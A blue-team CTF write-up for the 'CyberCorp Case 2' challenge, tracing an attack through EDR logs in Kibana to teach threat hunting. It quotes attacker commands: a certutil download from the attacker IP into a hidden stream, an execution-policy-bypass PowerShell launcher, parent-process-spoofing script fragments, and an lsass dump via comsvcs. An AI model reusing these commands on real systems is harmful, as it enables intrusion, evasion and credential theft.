






# CyberCorp Case 2

The [CyberCorp Case 2 challenge](https://cyberdefenders.org/blueteam-ctf-challenges/75) was created by [Vadim Khrykov and his team](https://www.linkedin.com/in/vadim-khrykov-39a227102/), and is based on a real-world attack. 

## Scenario

After a cybersecurity incident, CyberCorp's management decided to purchase and deploy EDR (Endpoint Detection and Response) solution. EDR agents were installed on all workstations and servers and forwarded telemetry to a centralized Threat Hunting platform.

The company has also hired a security blue team of highly qualified analysts to build a threat detection process using the Threat Hunting approach. You will have to try on the role of a threat hunter, who decided to verify the hypothesis about one of the attacker's persistence techniques.

Unfortunately, the hypothesis was confirmed, and a persistence technique was discovered on one host, which eventually became the starting point of the investigation.

By analyzing the EDR telemetry in the Threat Hunting platform, you will have to understand how the attacker compromised the network and what he managed to do with the obtained access.

## Resources

* [Threat Hunting. Why might you need it](https://cyberpolygon.com/materials/threat-hunting-why-might-you-need-it/)
* [Threat Hunting in action](https://cyberpolygon.com/materials/threat-hunting-in-action/)
* [Hunting for advanced Tactics, Techniques and Procedures (TTPs)](https://cyberpolygon.com/materials/hunting-for-advanced-tactics-techniques-and-procedures-ttps/)

## Tools

* [Kibana](https://www.elastic.co/kibana/)

## Setting up

* Download the VM, [watch the vid](https://www.youtube.com/watch?v=PczISJGPvKg), import, change network settings, start the VM.
* Open Firefox, and click on the Kibana bookmark.
* Update time range to last 3 years.



## Questions

***Q1 The Threat Hunting process usually starts with the analyst making a hypothesis about a possible compromise vector or techniques used by an attacker. In this scenario, your initial hypothesis is as follows: "The attacker used the WMI subscription mechanism to obtain persistence within the infrastructure". Verify this hypothesis and find the name of the WMI Event Consumer used by the attacker to maintain his foothold. Sample answer: Consumer***

Hypothesis: [Event Triggered Execution: Windows Management Instrumentation Event Subscription](https://attack.mitre.org/techniques/T1546/003/) (
[Atomic Red Team ID: T1546.003](https://github.com/redcanaryco/atomic-red-team/blob/36d49de4c8b00bf36054294b4a1fcbab3917d7c5/atomics/T1546.003/T1546.003.md)).



* Time of Event: Jun 21, 2021 @ 23:25:50.000 
* Host: DESKTOP-BZ202CP.cybercorp.com 
* User: CYBERCORP\john.goldberg 
* Process ID: 5772
* CommandLineEventConsumer.Name: PowerControl Consumer
* Related event ID's (IoC's): Event ID 19: WmiEvent (WmiEventFilter activity detected); Event ID 20: WmiEvent (WmiEventConsumer activity detected), and Event ID 21: WmiEvent (WmiEventConsumerToFilter activity).

***Q2 In the previous step, you looked for traces of the attacker's persistence in the compromised system through a WMI subscription mechanism. Now find the process that installed the WMI subscription. Answer the question by specifying the PID of that process and the name of its executable file, separated by a comma without spaces. Sample answer: 1200,program.exe.***

Look for a process just prior to the WMI subscription.



***Q3 "The process described in the previous question was used to open a file extracted from the archive that user received by email. Specify a SHA256 hash of the file extracted and opened from the archive. Sample answer: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855"***

The opened file was extracted from an archive received by email:

```text
proc_id:5772 AND event_type: FileOpen AND (*zip* OR *rar*)
```

Gives:

```text
Process 'c:\program files (x86)\microsoft office\office16\outlook.exe' created file 'c:\users\john.goldberg\appdata\local\microsoft\windows\inetcache\content.outlook\dfn3sfep\report.zip'
```

The archive `report.zip` was opened via email using the program `outlook.exe`.

```text
'c:\windows\explorer.exe' ➔ 'c:\program files (x86)\microsoft office\office16\winword.exe' ➔ 'c:\users\john.goldberg\appdata\local\temp\temp1_report.zip\market forecast emea.docx'`. 
```

`Market forecaste emea.docx` was opened via `winword.exe` and the temporary folder for it is `temp1_report.zip`. The hash for this `.docx` file is the answer:



***Q4 The file mentioned in question 3, is not malicious in and of itself, but when it is opened, another file is downloaded from the Internet that already contains the malicious code. Answer the question by specifying the address, from which this file was downloaded, and the SHA256 hash of the downloaded file, separated by commas without spaces. Sample answer: 192.168.0.1,e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855***

The [enrich processor](https://www.elastic.co/guide/en/elasticsearch/reference/current/enrich-processor.html) can enrich documents with data from another index. The `enrich.ioa.*` set of fields indicate suspiciousness. For example, setting`enrich.ioa.max_severity` to `exists`, the results show events that are `high`, `medium`, or `low`. Setting the `enrich.ioa.max_confidence: exists` filter, the level of confidence that a particular event is malicious is indicated.

To look for a sequence of events **Network Connection -> File Created (file downloaded) -> File Open**:

```text
proc_id:5772 AND (event_type: NetworkConnection OR event_type: "FileCreate" OR event_type: "FileOpen")
```



These could be artifacts of a remote `dotm` template injection attack.



`fontstyles[1].dotm` is a malicious file downloaded from `188.135.15.49`. This IP address is listed as [malicious/malware on VirusTotal](https://www.virustotal.com/gui/url/da463d5198689aaaff26efa1ecb04025f2146848230cce4bb27d749939373ac8/details).

***Q5 The malicious code from the file, mentioned in question 4, directly installed a WMI subscription, which we started our hunting with, and also downloaded several files from the Internet to the compromised host. For file downloading, the attacker used a tricky technique that gave him the opportunity to hide the real process, which initiated the corresponding network activity. Specify the SHA256 hash of the operating system component whose functionality was used by the attacker to download files from the Internet. Sample answer: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855***

The "Hunting for advanced Tactics, Techniques and Procedures (TTPs)" article refers to a technique in which Internet Explorer COM objects are used in scripts or macros to interact with Internet resources. Parent child process dechaining takes place which may help evade some EDRs. This technique appears to have been used here: `winword.exe` loads `ieproxy.dll` followed by DNS request(s). The hash of the `ieproxy.dll` is the answer.

***Q6 Specify the domain name of the resource from which the files mentioned in question 5 were supposedly downloaded as a result of malicious code execution. Sample answer: sub.domain.com***

Checking for `event_type = DNSReq`, adding the field `enrich.domaininfo.dns_rname.domain` and applying the `enrich.ioa.rules` filter, shows DNS requests to GitHub via `iexplorer.exe`. 

***Q7 The first file downloaded (as a result of executing the code in question 5) contained encoded executable code (PE), which after downloading was recorded in the registry. Specify an MD5 hash of the original representation of that code (PE). Sample answer: d41d8cd98f00b204e9800998ecf8427e***

Using `event_type: RegistryValueSet` and expanding the first entry gives a base64 encoded string marked `win_gzipped_data_as_reg_value_data` and `reg_value_data` stores the registry data. Using CyberChef with the recipes **From Base64 -> Gunzip -> MD5** gives the hash of the PE.

***Q8 The second file downloaded (as a result of code execution, which we talked about in question 5) was a script, that was set up to autostart via WMI Subscription. Specify the SHA256 hash of this script. Sample answer: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855***

Looking at events after the WMI subscription event for malicious script downloads with the `enrich.ioa.max_confidence: exist` filter: At `23:26:09`, the file `MSO1033.ps1` was downloaded and stored in `C:\Users\john.goldberg\AppData\Roaming\Microsoft\Office\`, after which a WMI subscription was set (`event_type = WMIConsumerCreate`). The goal of this WMI object is to run the command:

```text
powershell.exe -noP -ep bypass iex -c "('C:\Users\john.goldberg\AppData\Roaming\Microsoft\Office\MSO1033.ps1')"
```

The hash of `MSO1033.ps1` is the answer.

***Q9 The script, mentioned in question 8, spawned one of the legitimate system processes and injected into its memory a malicious code that was read and decoded from the registry (this code was mentioned in question 7). This malicious code migrated through a chain of code injections to the address space of another legitimate process, where it continued to run without further migration.***

***For this answer, provide the next data, separated by a comma without spaces:***
* ***PID of the initial legitimate system process, which was spawned by the script and where this script launched in-memory execution of malicious code;***
* ***PID of the target process, to which malicious code migrated from the initial process and in the context of which attacker performed different post-exploitation activity Sample answer: 1234,9876***

```text
(\*file_name:"mso1033.ps1" OR \*_file_path:"mso1033.ps1" OR \*cmdline:"mso1033.ps1") AND event_type:ScriptExecution AND enrich.ioa.max_severity:*
```

The script was split into 7 events and categorised as `win_empire_functions_and_cmdlets`, `win_possible_reflective_pe_injection_functions`

1. The value of the registry key was decoded with base64 and gzip, and the PE bytes were stored in a byte array `$PEBytes`. 
2. Invocations of Win32 APIs are done via the `Add-type` cmdlet.
3. The last part of the script contains a reference to a variable named `$spawnTo`:

```text
# spawning of the legitimate dwm.exe process
$spawnTo = "c:\Windows\System32\dwm.exe"
```

4. [T1134.004](https://attack.mitre.org/techniques/T1134/004/): Adversaries may spoof the parent process identifier (PPID) of a new process to evade process-monitoring defenses or to elevate privileges. A handle to `winlogon.exe` is obtained:

```text
# ppid = winlogon PID
[int]$ppid = Get-Process -Name "winlogon" | Select -expand ID
...
$hSpoofParent = [Kernel32]::OpenProcess(0x1fffff, 0, $ppid)
```

5. `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` is `0x00020000`:

```text
$result1 = [Kernel32]::UpdateProcThreadAttribute($sInfoEx.lpAttributeList, 
                                              0, 
                                              0x00020000,
                                              $lpValue, 
                                              [IntPtr]::Size, 
                                              [IntPtr]::Zero, 
                                              [IntPtr]::Zero) 
```

6. `dwm.exe` is spawned with winlogon as the spoofed parent process:

```text
$result1 = [Kernel32]::CreateProcess($spawnTo,     # call to CreateProcess
                                  $cmdline, 
                                  [ref]$SecAttr, 
                                  [ref]$SecAttr, 
                                  0,
                                  0x08080004,
                                  [IntPtr]::Zero, 
                                  $currdir, 
                                  [ref] $sInfoEx, 
                                  [ref] $pInfo)
```

Updating the query to:

```text
(*winlogon.exe* OR *dwm.exe*) AND event_type: ProcessCreate
```

Put the PID of the spawned process `dwm.exe` first.

***Q10 The malicious code run by the script is a Reverse Shell. Identify the IP address and port number of its command center. Sample answer: 192.168.0.1:123***

```text
(*winlogon.exe* OR *dwm.exe*) AND event_type: NetworkConnection
```

The network connection comes from yet another process, `rundll32.exe`. Another layer of obfuscation.

***Q11 As a result of running a malicious code, which we talked about in questions 9 and 10, the attacker got a shell on the compromised host. Using this access, the attacker downloaded the Active Directory collection utility to the host in an encoded form. Specify a comma-separated, non-spaced link where the encoded version of the utility was downloaded and a SHA256 hash of the decoded version that was directly run by the attacker on the compromised host. Sample answer: http://domain.com/file,e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855***

Looking for `NetworkConnection AND FileCreate` events after the initial `rundll` network connection took place. Limiting results:

```text
(event_type : "NetworkConnection" or event_type : "filecreate") and not proc_p_file_path : "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe"
```

1. At `23:46:10.000`, `certutil` (which has a history of being used as a lolbin) makes a network connection, downloads a file `chrome_installer.log2`, and creates a file by the name of `svchost.exe` and . 

At 23:46:10.000:

```text
certutil  -urlcache -f http://188.135.15.49/chrome_installer.log2 C:\Windows\TEMP\chrome_installer.log2:data
```

At 23:46:17.000:

```text
certutil  -decode C:\Windows\TEMP\chrome_installer.log2:data C:\Windows\TEMP\svchost.exe
```

2. Apparently, bloodhound was run.
3. `chrome_installer.log2` is a base64 encoded form of Bloodhound, after which `certutil` was used again to decode and save it to disk as `svchost.exe`.

Filtering for `C:\Windows\TEMP\svchost.exe` gives its SHA256, the answer.

***Q12 During the post-exploitation process, the attacker used one of the standard Windows utilities to create a memory dump of a sensitive system process that contains credentials of active users in the system. Specify the name of the executable file of the utility used and the name of the memory dump file created, separated by a comma without spaces. Sample answer: program.exe,file.ext***

```text
event_type: FileCreate OR event_type: FileOpen
```

`rundll32.exe` is used to invoke the exported MiniDump function from `C:\windows\system32\comsvcs.dll` and dump `lsass`. See [LOLBAS](https://lolbas-project.github.io/lolbas/Libraries/comsvcs/).

***Q13 Presumably, the attacker extracted the password of one of the privileged accounts from the memory dump we discussed in the previous question and used it to run a malicious code on one of the domain controllers. What account are we talking about? Specify its username and password as the answer in login:password format. Sample answer: kate:qwerty***

To execute code on the DC there must be some kind of lateral movement. Looking for suspicious events after the `lsass` dumping:

```text
event_type: "NetworkConnection" and dev_fqdn: "DC01-CYBERCORP.cybercorp.com"
```

***Q14 A compromised user account is a member of two Built-in privileged groups on the Domain Controller. The first group is the Administrators. Find the second group. Provide the SID of this group as an answer. Sample answer: S-1-5-32-545***

```text
dev_fqdn: DC01-CYBERCORP.cybercorp.com AND event_type: AccountGroupList AND *inventory*
```

***Q15 As a result of malicious code execution on the domain controller using a compromised account, the attacker got a reverse shell on that host. This shell used a previously not seen IP address as the command center. Specify its address as the answer. Sample answer: 192.168.0.1***

```text
dev_fqdn: DC01-CYBERCORP.cybercorp.com AND (proc_id:4460 OR proc_p_id:4460 OR proc_c_id:4460 OR proc_tgt_id:4460)
```
